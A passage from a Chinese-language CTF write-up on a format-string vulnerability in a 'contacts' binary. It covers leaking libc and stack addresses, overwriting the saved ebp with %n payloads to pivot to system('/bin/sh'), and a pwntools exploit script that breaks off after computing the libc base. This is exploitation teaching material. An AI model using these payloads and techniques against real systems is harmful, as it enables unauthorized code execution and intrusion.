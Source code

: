 ```text
[system_addr][bbbb][binsh_addr][%6$p][%11$p][bbbb]
```

来获取对应的相应的地址。后面的bbbb是为了接受字符串方便。

这里因为函数调用时所申请的栈空间与释放的空间是一致的，所以我们得到的ebp地址并不会因为我们再次调用而改变。

### 修改ebp

由于我们需要执行move指令将ebp赋给esp，并还需要执行pop ebp才会执行ret指令，所以我们需要将ebp修改为存储system地址-4的值。这样pop ebp之后，esp恰好指向保存system的地址，这时在执行ret指令即可执行system函数。

上面已经得知了我们希望修改的ebp值，而也知道了对应的偏移为11，所以我们可以构造如下的payload来进行修改相应的值。

```
part1 = (heap_addr - 4) / 2
part2 = heap_addr - 4 - part1
payload = '%' + str(part1) + 'x%' + str(part2) + 'x%6$n'
```

### 获取shell

这时，执行完格式化字符串函数之后，退出到上上函数，我们输入5，退出程序即会执行ret指令，就可以获取shell。

### 利用程序

```python
from pwn import *
from LibcSearcher import *
contact = ELF('./contacts')
#context.log_level = 'debug'
if args['REMOTE']:
    sh = remote(11, 111)
else:
    sh = process('./contacts')


def createcontact(name, phone, descrip_len, description):
    sh.recvuntil('>>> ')
    sh.sendline('1')
    sh.recvuntil('Contact info: \n')
    sh.recvuntil('Name: ')
    sh.sendline(name)
    sh.recvuntil('You have 10 numbers\n')
    sh.sendline(phone)
    sh.recvuntil('Length of description: ')
    sh.sendline(descrip_len)
    sh.recvuntil('description:\n\t\t')
    sh.sendline(description)


def printcontact():
    sh.recvuntil('>>> ')
    sh.sendline('4')
    sh.recvuntil('Contacts:')
    sh.recvuntil('Description: ')


# get system addr & binsh_addr
payload = '%31$paaaa'
createcontact('1111', '1111', '111', payload)
printcontact()
libc_start_main_ret = int(sh.recvuntil('aaaa', drop=True), 16)
log.success('get libc_start_main_ret addr: ' + hex(libc_start_main_ret))
libc = LibcSearcher('__libc_start_main_ret', libc_start_main_ret)
libc_base = libc_start_main_ret - libc.dump('__libc_start_main_ret')
```